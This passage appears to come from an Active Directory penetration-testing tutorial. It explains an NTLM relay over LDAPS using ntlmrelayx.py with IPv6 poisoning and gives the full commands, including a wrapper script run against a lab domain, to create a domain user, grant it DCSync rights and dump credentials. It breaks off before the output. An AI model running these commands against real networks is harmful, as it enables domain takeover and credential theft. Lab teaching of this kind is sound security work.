 ![](/assets/images/active-directory/ldaps_enabled.png)
 
Now we can perform something even more powerful that what we did with ldap, since with ldaps we can create a new user, so now we don't need any valid credentials inside the domain we can create our own user, give him DCSync rights and dump everything, to do so we change the target from ldap to ldaps, and erase "--escalate-user", so we have `ntlmrelayx.py -6 -t ldaps://<DC IP> -wh <any value>.<domain> --no-dump`, using my script I would run: `./ntlm-to-ldap.sh -m add -d KAIBA-CORP.local -i eth1 -n KAIBA-CORP-DC.KAIBA-CORP.local -t 192.168.56.18`, and when an administrator logs in a machine on the network we will get:
